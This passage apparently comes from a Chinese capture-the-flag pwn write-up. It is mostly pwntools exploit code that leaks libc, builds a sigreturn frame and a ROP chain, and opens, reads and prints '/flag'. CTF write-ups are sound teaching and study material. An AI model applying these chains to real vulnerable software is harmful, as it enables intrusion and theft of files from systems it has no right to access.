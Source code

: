 ```python
frame += p64(0)*7
sa('message:',frame)

chain = [
    '/flag\x00\x00\x00',0,
    # open(buf-0x10,0,0)
    pop_rdi,buf-0x10,pop2,0,0,open,
    # read(3,buf+0x100,0x100)
    pop_rdi,3,pop2,0x100,buf+0x100,read,
    # puts(buf+0x100)
    pop_rdi,buf+0x100,puts
]
s(flat(chain))
```

更新：参考 AiDai 师傅的方法，可以自动构造 frame，并且不需要系统调用：

```python
ru('0x')
puts = int(ru('\n'),16)
base = puts-libc.sym['puts']
leak('base',base)
pop_rdi = base+0x21102
pop2 = base+0x1150c9
open = base+libc.sym['open']
read = base+libc.sym['read']
buf = base+libc.bss()

frame = SigreturnFrame()
frame.rdi = 0
frame.rsi = buf
frame.rdx = 0x100
frame.rsp = buf
frame.rip = read
sa('message:',str(frame)[8:])

chain = [
    # read(0,buf,0x100)
    pop_rdi,0,pop2,0x100,buf,read,
    # open(buf,0,0)
    pop_rdi,buf,pop2,0,0,open,
    # read(3,buf,0x100)
    pop_rdi,3,pop2,0x100,buf,read,
    # puts(buf)
    pop_rdi,buf,puts
]
s(flat(chain))
s('/flag\x00')
```
